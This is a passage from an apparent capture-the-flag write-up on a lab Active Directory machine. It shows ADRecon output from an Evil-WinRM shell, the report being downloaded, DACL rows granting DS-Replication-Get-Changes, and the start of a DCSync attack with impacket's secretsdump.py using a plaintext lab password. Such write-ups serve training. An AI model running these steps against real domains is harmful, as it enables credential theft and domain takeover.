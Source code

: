     Warning: [*] LAPS is not implemented.
    [-] BitLocker Recovery Keys - Needs Privileged Account
    [-] ACLs - May take some time
    Warning: [*] SACLs - Currently, the module is only supported with LDAP.
    [-] GPOReport - May take some time
    [*] Total Execution Time (mins): 0.69
    [*] Output Directory: C:\Users\svc_loanmgr\Documents\ADRecon-Report-20200219154103
    Warning: [Get-ADRExcelComObj] Excel does not appear to be installed. Skipping generation of ADRecon-Report.xlsx. Use the -GenExcel parameter to generate the ADRecon-Report.xslx on a host with Microsoft Excel installed.
    *Evil-WinRM* PS C:\Users\svc_loanmgr\Documents> download ADRecon-Report-20200219154103 /tmp/adrecon
    Info: Downloading ADRecon-Report-20200219154103 to /tmp/adrecon

    Info: Download successful!

We look at our user permissions and found that it has the AD privilege
[DS-Replication-Get-Changes](https://docs.microsoft.com/en-us/windows/win32/adschema/r-ds-replication-get-changes)
which allows to replicate changes from a given NC.

    :::text
    grep svc CSV-Files/*
    CSV-Files/AboutADRecon.csv:"Ran as user","svc_loanmgr"
    CSV-Files/DACLs.csv:"EGOTISTICAL-BANK","Domain","All","All","ReadProperty, GenericExecute","Allow","EGOTISTICALBANK\svc_loanmgr","Administrators","False","None","None","None","None","00000000-0000-0000-0000-000000000000","00000000-0000-0000-0000-000000000000","EGOTISTICALBANK\svc_loanmgr","S-1-5-32-544","DC=EGOTISTICAL-BANK,DC=LOCAL"
    CSV-Files/DACLs.csv:"EGOTISTICAL-BANK","Domain","DS-Replication-Get-Changes","All","ExtendedRight","Allow","EGOTISTICALBANK\svc_loanmgr","Administrators","False","ObjectAceTypePresent","None","None","None","1131f6aa-9c07-11d1-f79f-00c04fc2dcd2","00000000-0000-0000-0000-000000000000","EGOTISTICALBANK\svc_loanmgr","S-1-5-32-544","DC=EGOTISTICAL-BANK,DC=LOCAL"
    CSV-Files/DACLs.csv:"EGOTISTICAL-BANK","Domain","DS-Replication-Get-Changes-All","All","ExtendedRight","Allow","EGOTISTICALBANK\svc_loanmgr","Administrators","False","ObjectAceTypePresent","None","None","None","1131f6ad-9c07-11d1-f79f-00c04fc2dcd2","00000000-0000-0000-0000-000000000000","EGOTISTICALBANK\svc_loanmgr","S-1-5-32-544","DC=EGOTISTICAL-BANK,DC=LOCAL"
    CSV-Files/GroupMembers.csv:"Domain Users","svc_loanmgr","L Manager","user"
    CSV-Files/GroupMembers.csv:"Remote Management Users","svc_loanmgr","L Manager","user"
    CSV-Files/Users.csv:"svc_loanmgr","L Manager","True","False","False","True","False","False","True","False",,,,"False","False","0","25","False","False","False","False","False",,,,,,"513","S-1-5-21-2966785786-3096785034-1186376766-1108","","","","","","","","2/19/2020 3:39:15 PM","1/24/2020 3:48:31 PM",,,"","",,,,"66048","L","","Manager","","1/24/2020 3:48:31 PM","2/19/2020 3:39:15 PM","CN=L Manager,CN=Users,DC=EGOTISTICAL-BANK,DC=LOCAL","EGOTISTICAL-BANK.LOCAL/Users/


## DCSync

This extended privilege allow us to [run DCSync attack](https://adsecurity.org/?p=1729).
For that we use
[impacket's secretdump.py](https://github.com/SecureAuthCorp/impacket/) to get
the users' passwords hashes and mostly the `administrator`'s password hash.

    :::text
    python secretsdump.py 'egotisticalbank.local/svc_loanmgr:Moneymakestheworldgoround!@10.10.10.175'
    Impacket v0.9.21-dev - Copyright 2019 SecureAuth Corporation
